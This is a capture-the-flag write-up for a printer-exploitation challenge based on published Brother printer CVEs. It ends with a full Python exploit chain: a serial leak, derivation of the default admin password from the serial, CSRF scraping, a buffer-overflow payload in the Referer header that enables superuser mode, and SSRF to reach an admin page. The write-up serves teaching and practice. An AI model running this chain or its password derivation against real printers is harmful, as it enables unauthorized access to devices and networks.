

It looks like it takes an XML request in the following format:

```xml
<Job>
	<ID>420</ID>
	<URL>http://meow.lol</URL>
</Job>
```

Then it will fetch the contents of the specified URL (`[72]`), assign it to `doc` (`[75-80]`), and return it to the client (`[81]`)



We have a classic SSRF scenario. If the website is running on the same host, and we can forge a request to come from the printer, we might be able to retrieve the contents of `/admin` 👀

Let's update our script to include a new function.

```python
def trigger_ssrf(base, s, target_url):
    xml = f"<Job><ID>420</ID><URL>{target_url}</URL></Job>"
    r = s.post(f"{base.rstrip('/')}/jobs/manage", data=xml,
               headers={"Content-Type": "application/xml"}, timeout=10)
    if r.status_code != 200:
        raise RuntimeError("manage POST failed")
    return r.text

# SSRF
response = trigger_ssrf(base, s, "http://127.0.0.1/admin")
print(response.text)
```

If testing locally, we'll also need to set up a web server to confirm the hit.

```bash
python3 -m http.server

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [11/Nov/2025 20:49:34] code 404, message File not found
127.0.0.1 - - [11/Nov/2025 20:49:34] "GET /admin HTTP/1.1" 404 -
```

```bash
python gen_pass.py

[+] Target: http://127.0.0.1:8000
[+] Logged in (AuthCookie set)
[+] CSRF token: L3N0YXRzfDE3NjI4OTQxNzR8NzdkNWYxOTNkZTIwOWJjYw==
[+] Sending buffer overflow payload
{"job_id":"420","status":"queued","preview":"<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
"}
```

It works! Now we just need to repeat it against the remote server. Let's first chain everything together into a single one-click exploit.

## PoC

```python
#!/usr/bin/env python3
import argparse
import base64
import csv
import hashlib
import re
import sys
import requests
from pwn import *
from urllib.parse import urlparse
from http.client import RemoteDisconnected

# --- Brother-style tables (must match device) ---
SALT_LOOKUP_TABLE = [0x06, 0x1A, 0x80, 0x93, 0x90, 0x60, 0xA4, 0x18, 0x76, 0xA8, 0xFA, 0x98, 0x58, 0x25, 0x5F, 0xBA,0x24, 0xCF, 0xDD, 0xB6, 0xD0, 0xE3, 0x7A, 0x68, 0x41, 0x8B, 0x21, 0x15, 0x7E, 0x65, 0x70, 0x7F, 0x8C, 0x91, 0x3B, 0xFC,0x13, 0x4A, 0xBE, 0xD7, 0x6C, 0x99, 0xC3, 0xD1, 0x51, 0x35, 0xDF, 0x23, 0xB0, 0x3F, 0x3D, 0x16, 0x29, 0xA1, 0x59, 0xCA, 0xA2, 0x5C, 0x43, 0x0B, 0xA5, 0x36, 0xF0, 0xFE, 0x3E, 0xED, 0xF2, 0xE6, 0xEA, 0x54, 0x66, 0x7D, 0xEE, 0x3C, 0x50, 0xEF,0x9E, 0xD3, 0xB1, 0xF7, 0xAC, 0x5A, 0x6E, 0x12, 0x2A, 0x01, 0x46, 0x8F, 0x6B, 0x88, 0x0E, 0x52, 0xF9, 0x81, 0xA0, 0x02,0xC1, 0xF1, 0xE9, 0xC2, 0xF6, 0x33, 0xCB, 0xB3, 0x73, 0x17, 0xFD, 0x6F, 0xF4, 0xEC, 0x84, 0xC6, 0x47, 0xCE, 0x9F, 0xD5, 0x92, 0x85, 0x53, 0x26, 0x27, 0x62, 0xEB, 0xAE, 0x3A, 0x1F, 0x0F, 0x94, 0x95, 0x82, 0x8E, 0x42, 0x28, 0xB9, 0xBF, 0xAF,0xD4, 0x48, 0xD9, 0xC5, 0x4C, 0x64, 0x2B, 0x8D, 0xF8, 0xAA, 0xC4, 0x63, 0x87, 0xE4, 0x1D, 0xA6, 0x14, 0xCD, 0xBB, 0xC0,0xE5, 0xDA, 0x37, 0xC9, 0xE8, 0xB8, 0x67, 0xDC, 0x5D, 0xA7, 0xAD, 0x79, 0x44, 0xF3, 0x83, 0xA9, 0x1B, 0x96, 0x89, 0xAB, 0x45, 0xBC, 0x1C, 0xB4, 0xE1, 0x20, 0x2F, 0x49, 0x22, 0x86, 0xDB, 0x4E, 0xE0, 0x9B, 0x10, 0x19, 0x97, 0x61, 0x40, 0x78,0x5E, 0x39, 0xCC, 0x0D, 0x09, 0x9D, 0x34, 0x0C, 0x2E, 0x0A, 0x77, 0x6D, 0xDE, 0xC7, 0xD8, 0xA3, 0xE2, 0x56, 0xB5, 0x4B,0x38, 0x74, 0x8A, 0xBD, 0x6A, 0x4F, 0x07, 0x03, 0x05, 0xFF, 0xF5, 0x31, 0x1E, 0xE7, 0xD2, 0x2D, 0x69, 0xC8, 0x5B, 0xD6, 0x57, 0x75, 0x7C, 0xB2, 0x72, 0xB7, 0x2C, 0xFB, 0x11, 0x9C, 0x7B, 0x32, 0x55, 0x30, 0x71, 0x04, 0x9A, 0x4D, 0x08, 0x100]

SALT_DATA_TABLE = ["aiaFrJAn", "FuUcjKwa", "cMnDTitZ", "RuSfzwJC", "XXrLDVub", "znimXRSU", "dLdJgcZf", "rgm32u2x","7HOLDhk'", "ENbuNZVy", "eCd6Ygyf", "gmLt2GuL", "5dhjHet3", "nPtN7h23", "47rdTTV7", "KAkaSzWh", "s3m7wwW2", "wtBGnGjn","H3LyF$dd", "H6EtSew2", "D9N8iJBB", "tPT4ZKm3", "XEEV4tjf", "zDXx93rw", "HKkmbGjD", "ng5sLECe", "QrPVDngu", "LPMhpZe9","uLzhjUwc", "Sa9QBKW2", "AfrPdj7y", "ujmt9s72", "n8Y7XrFx", "8xeRU7rW", "RUzpQznp", "%hU5RMxP", "ipaZKMEW", "chP5cHCy","b5UJabgU", "WtZsF7VF", "xk8wg669", "gAVynzbw", "GuRgNxkm", "UBCAUb85", "CQgQhyfp", "fcEegCtB", "5LSpTNPN", "dzrQdahF","kD4fHLhM", "mHQ6QAUg", "TjZ6kiAb", "5SMdwEK6", "RD2ytHHH", "XgQHBfBY", "6ZZRVbHx", "BNDUsFCC", "iSwrrtpr", "ucBFJbGj","Nzs7rhKJ", "uHugTJX5", "aXN3FsUF", "uyHDwwUK", "tbnJTYje", "SmgfLZ2n", "4sXy9D8j", "YLVSee68", "3U5TbNNS", "QjYfTBKu","T*8AF8dk", "F8xQDTrW", "Pyeda62U", "33sghDrE", "ThiW9Naz", "BU9TDd7k", "72sgwM&G", "VkV+uSUt", "HpTdi9jL", "G3AbGyAH","zbW8YCSy", "eKB25SCe", "rbzpCtQN", "EZSRB966", "nJAxxUbS", "7GZRAG9E", "PaMCwYGQ", "TZy2AeYr", "jMgYEPUT", "6QAepcUc","jdWU9pXy", "CeZs6T8g", "jEEDBNPn", "fCHg4V5W", "rTUUjyPG", "3L5SNJhr", "XbXK4Lg9", "ZcdGAzLH", "ANfMJ&6p", "S4URfyzc","Pai9muCn", "Nei%6NwR", "BnUWBHg6", "FwGyWrux", "mwkuuGXX", "WR$LK5Qu", "Lxs4DgNM", "KAYMHcKy", "UnWYeeUp", "2cc3EzeX","7nVPpdCd", "LDPgHa9b", "Yfwsz7zR", "tGhb9Ych", "Gxi4S8jC", "QEiWU2cm", "PFhyTxjN", "LrpTgGLw", "PUfziDzE", "ACbmRneN","gYmjyNjF", "RuZctKSS", "k8KdHgDB", "pJEA3hSG", "X6rbghrk", "9mnbf3up", "4WU2hMHx", "TgmNEn45", "zRnQReEn", "DfsPzxsX","UyScxhhw", "knEsS3CX", "xuPUKwFf", "Ks4nKt2z", "trBf!b67", "rhHgt4gX", "2N8sPf#d", "eFMjhMcB", "aWLeRu9M", "4MiN4D63","5nG9jMGh", "SA5pnyQ6", "UnSQ94nx", "kPjzBBxy", "6CppHT3R", "3VPgRgiL", "cP9JJDJr", "MyMWzUMj", "xyG4ACEd", "dbnAbG8e","RnHGYc6F", "ktCQnJWk", "XBt5Vxr2", "wH6iY9f9", "atB4eri8", "8SdHujf8", "inLRdn5s", "Fh3N*pWc", "Fb3XYtZz", "GADACWcS","r8tsDgph", "EumHNmFg", "rRFKrK2x", "TQ9nUnNk", "P5hss6GX", "mX8ZSQtr", "BJMjyd7H", "EC7r5fEm", "TPjQpDaa", "SZeMDpfR","XEDJeraW", "YYNTgsah", "6uupfWF!", "7RcTLwHX", "ycYr3dwT", "7VwCnTFQ", "JGF6iigf", "M72Kea4f", "ZxfZWbVb", "NcT3LGBV","HBU68uaa", "UeHK4pnf", "sDjzNHHd", "CGjgeutc", "PC4JbuC2", "tNYQc7Xs", "RGNsJQhD", "HKEh2fba", "49x4PLUz", "N6MLNkY5","NrMHeE9d", "j5NkznV4", "n8At3YKi", "ZnHwAEnZ", "3LnUmF8E", "RBXzdUpA", "FwGHBVej", "3wkkik7E", "fpyGnp2u", "ANBwfiPb","Ztt8X9zG", "47K7QWix", "TzJfUdNY", "hpD?MEAm", "sJRh4Jni", "TyQUgEEH", "FBJnWWwx", "7cN3GH6e", "hWQhzFTN", "GamDhsgZ","yXM4cZKt", "9BJPKtaC", "NVNpe4kJ", "uSyxGxbz", "h5zTpV3U", "TAajcQ4h", "VjYMEusS", "Wpj237VG", "yAjHYVVV", "Hb6k7Cwe","yZbuDBEi", "S4wpBmZM", "DwFra8wk", "j#Pk5r9W", "PjkfS9WB", "gHf3YGA3", "ihDtdUCu", "KARzJDfR", "M7fApB5U", "MiD44gRC","RdEM8y5W", "4GsGuPag", "pETQc4k2", "pZZu7Ras", "AJReAUBy", "EAMmQsWe", "BeC2XJi8", "PujT2eRf", "2UXLeAJu", "hMPbY3MQ","QeawRP*p", "SbCbW9Tf", "EhNNtLyj", "B8RjceGs", "LaydmLeD", "JFR7T47f", "WCbAdTfm", "srN9gNSE", "gAn7h8Yp", "4PnTKVse","HDxGwLsN", "tR8XUSRg", "wLe-3Xf8", "zH7cpxsd", "tCc5sWFX", "3hzTj5BS", "hLK6f&g4", "tCzzSsm7"]

# Precompiled regex alias
R = re.compile

# Map charset to printer alphabet
def mc(s): return ''.join({'l': '#', 'I': '$', 'z': '%', 'Z': '&', 'b': '*',
                           'q': '-', 'O': ':', 'o': '?', 'v': '@', 'y': '>'}.get(c, c) for c in s)

# Derive default password from serial
def derive_password(serial):
    s = sum(int(ch) for ch in serial if ch.isdigit()) & 0xFF
    salt = SALT_DATA_TABLE[SALT_LOOKUP_TABLE[s] & 0xFF].encode('latin-1')
    b = bytearray(24)
    b[:16] = (serial[:16]+'0'*(16-len(serial[:16]))).encode('ascii')
    for k in range(8):
        b[16+k] = (salt[7-k]-1) & 0xFF
    return mc(base64.b64encode(hashlib.sha256(bytes(b)).digest()).decode('ascii')[:24])

# Open dir leak for flag1
def get_flag1(t, s):
    try:
        r = s.get(t.rstrip('/')+"/printer_release/flag1.txt", timeout=5)
        if r.ok and r.text.strip():
            m = R(r"(flag\{[^}]+\})", re.I).search(r.text)
            return m.group(1) if m else r.text.strip()
    except:
        pass
    return ""

# CSV leak for serial and flag2
def leak_serial(base, s):
    r = s.get(base.rstrip('/')+"/etc/mnt_info.csv", timeout=8)
    r.raise_for_status()
    row = next(
        iter(csv.DictReader([l for l in r.text.splitlines() if l.strip()])))
    return row.get("serial"), row.get("flag2", "") or ""

# Login; returns flag3 header and sets AuthCookie
def login(base, pwd, s):
    s.get(base.rstrip('/')+"/login", timeout=6)
    r = s.post(base.rstrip('/')+"/login",
               data={"username": "admin", "password": pwd}, allow_redirects=False, timeout=8)
    if r.status_code not in (200, 302):
        raise RuntimeError("login failed")
    if not any(c.name == "AuthCookie" for c in s.cookies):
        raise RuntimeError("no authcookie")
    return r.headers.get("X-Flag-3", "")

# Get CSRF token from /stats
def get_csrf(base, s):
    r = s.get(base.rstrip('/')+"/stats", timeout=6)
    if r.status_code != 200:
        raise RuntimeError("/stats failed")
    m = R(
        r"<meta\s+name=['\"]csrf-token['\"]\s+content=['\"]([^'\"]+)['\"]", re.I).search(r.text)
    if not m:
        raise RuntimeError("csrf missing")
    return m.group(1)

# 3-byte overwrite via Referer host copy to enable superuser
def send_overflow(base, token, authcookie, action, s):
    p = urlparse(base)
    host = p.hostname or "127.0.0.1"
    scheme = p.scheme or "http"
    h = {"Host": host, "X-CSRF-Token": token,
         "Referer": f"{scheme}://{flat({136:[pack(0x402dba)[:3]]}).decode('latin-1')}/stats", "Cookie": f"AuthCookie={authcookie}"}
    return s.post(base.rstrip('/')+f"/{action}", headers=h, timeout=5)

# GET /jobs/manage (superuser only) -> flag4
def get_flag4(base, s):
    r = s.get(base.rstrip('/')+"/jobs/manage", timeout=6)
    if r.status_code == 200:
        try:
            return r.json().get("flag", "") or "NO FLAG"
        except:
            pass
        m = R(r"(flag4\{[^}]+\})", re.I).search(r.text)
        return m.group(1) if m else "NO FLAG"
    return "NO FLAG"

# POST /jobs/manage SSRF -> preview contains admin body with flag5
def trigger_ssrf(base, s, target_url):
    r = s.post(base + '/jobs/manage', data=f"<Job><ID>420</ID><URL>{target_url}/admin</URL></Job>", headers={
               "Content-Type": "application/xml"}, timeout=10)
    if r.status_code != 200:
        raise RuntimeError("manage POST failed")
    prev = ""
    try:
        prev = r.json().get("preview", "") or ""
    except:
        prev = r.text
    m = R(r"(flag\{[^}]+\})", re.I).search(prev)
    return (m.group(1) if m else prev)

# Get printer base_url from manufacturer config json
def fetch_printer_base_from_config(t, s):
    r = s.get(t.rstrip('/')+"/printer_release/config.json", timeout=6)
    r.raise_for_status()
    p = (r.json() or {}).get("printer")
    if not p:
        raise RuntimeError("printer field missing")
    return (p if p.startswith(("http://", "https://")) else "http://"+p).rstrip('/')

# Exploit full chain and print flags
def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--base_url", nargs="?", default="http://127.0.0.1:8000")
    ap.add_argument("--action", default="print", choices=["print", "scan"])
    ap.add_argument("--only-login", action="store_true")
    ap.add_argument("target", default="http://127.0.0.1")
    args = ap.parse_args()

    s = requests.Session()
    print(f"[+] Target: {args.target}")

    # Access /printer_release/ directory on manufacturer website (flag1)
    f1 = get_flag1(args.target, s)
    if f1:
        print(f"[*] FLAG_1: {f1}")

    try:
        # Get printer base_url from manufacturer config json
        base = fetch_printer_base_from_config(args.target, s)
        print(f"[+] Using printer base URL from config: {base}")
    except Exception as e:
        base = args.base_url.rstrip('/')
        print(
            f"[-] Could not fetch printer config, falling back to arg: {e}", file=sys.stderr)
        print(f"[+] Using fallback base URL: {base}")

    # Leak serial from /etc/mnt_info.csv (and get flag2)
    serial, f2 = leak_serial(base, s)
    print(f"[+] Leaked serial: {serial}")
    if f2:
        print(f"[*] FLAG_2: {f2}")

    # Derive password from serial and login (flag3)
    pw = derive_password(serial)
    print(f"[+] Derived password: {pw}")
    f3 = login(base, pw, s)
    print("[+] Logged in (AuthCookie set)")
    if f3:
        print(f"[*] FLAG_3: {f3}")

    # Get CSRF token (required for /print + /scan endpoints)
    token = get_csrf(base, s)
    print(f"[+] CSRF token: {token}")
    if args.only_login:
        print("[*] --only-login set; stopping")
        return

    # Exploit buffer overflow to call enable_superuser (required for /jobs/manage endpoint)
    cookie = next((c.value for c in s.cookies if c.name == "AuthCookie"), None)
    try:
        print("[+] Sending buffer overflow payload")
        send_overflow(base, token, cookie, args.action, s)
    except (requests.exceptions.ConnectionError, RemoteDisconnected):
        pass

    # With superuser override activated, access /jobs/manage endpoint (flag4)
    f4 = get_flag4(base, s)
    print(f"[*] FLAG_4: {f4}")

    # POST job (XML body) with an SSRF payload pointing to /admin on the website (flag5)
    print(f"[+] Triggering SSRF via /jobs/manage -> {args.target}/admin")
    f5 = trigger_ssrf(base, s, args.target)
    if f5:
        print(f"[*] FLAG_5: {f5}")
    else:
        print("[+] SSRF response:")
        print(f5)

if __name__ == "__main__":
    try:
        main()
    except Exception as e:
        print(f"[-] Error: {e}", file=sys.stderr)
        sys.exit(1)
```

Run it against the remote server -> profit 💲



## Summary (TL;DR)

1. Access website and find an `/admin` page that requires local admin access
2. Download printer firmware from `/firmware`
3. Notice it downloads from `/printer_release/printer` and `/printer_release/` has open directory listing enabled
4. Find `printer_build` (second binary), `config.json` (IP/PORT of the remote printer + FLAG_1)
5. Reverse `printer` and `printer_build`
6. Find unauthenticated endpoint `/etc/mnt_info.csv` which leaks serial (FLAG_2)
7. Derive default password from serial (see `printer_build`) and log in as admin (FLAG_3)
8. Get a CSRF token from `/stats`
9. Send a job to `/print` or `/scan`, triggering buffer overflow in the referer header (ensuring all other exploitation prerequisites are met)
10. Buffer overflow payload calls `enable_superuser`, activating the `/jobs/manage` endpoint (FLAG_4)
11. The `/jobs/manage` endpoint takes an XML payload but has an SSRF vulnerability
12. Use the SSRF to accomplish step (1) - access `/admin` endpoint on the initial website (FLAG_5)

## Conclusion

As I mentioned earlier, this challenge was inspired by [Brother Printers CVEs](https://github.com/sfewer-r7/BrotherVulnerabilities) discovered by [Stephen Fewer](https://x.com/stephenfewer). When I read the whitepaper, I thought it was a really crazy chain of vulnerabilities with serious impact. I decided to make a [video](https://www.youtube.com/watch?v=--SaQKmcyiU) on the topic, and wanted to follow it up with a practical challenge that demonstrates some of the CVEs; a mini Pwn2Own (without the RCE - although I nearly added it to the SSRF step).

Finally, a shout-out to [STAR Labs](https://x.com/starlabs_sg), who recently published a [writeup](https://starlabs.sg/blog/2025/11-breaking-into-a-brother-mfc-j1010dw) about the exploit chain they _almost_ submitted to Pwn2Own Ireland 2025. It leveraged several of the existing CVEs, combined with some new discoveries. Unfortunately, the vendor dropped a patch on the final day of Pwn2Own registration which broke the chain 😤


## Community Writeups

-   [Paweł Łukasik](https://allthingsreversed.io/20251116-Mother-printers-writeup.html)
